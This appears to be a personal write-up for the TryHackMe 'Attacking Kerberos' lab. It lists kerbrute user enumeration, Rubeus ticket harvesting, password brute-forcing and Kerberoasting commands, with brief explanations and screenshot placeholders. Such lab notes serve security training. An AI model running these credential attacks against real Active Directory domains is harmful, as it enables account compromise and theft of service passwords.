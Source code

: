 ```yaml
---
description: https://tryhackme.com/room/attackingkerberos
---
```


# 🐕‍🦺 Attacking Kerberos

### Enumeration w/ Kerbrute

Start by enumerating with kerbrute:

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Harvesting & Brute-Forcing Tickets w/ Rubeus

```
Rubeus.exe harvest /interval:30
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account

```
Rubeus.exe brute /password:Password1 /noticket
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Kerberoasting w/ Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain.

```
Rubeus.exe kerberoast
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
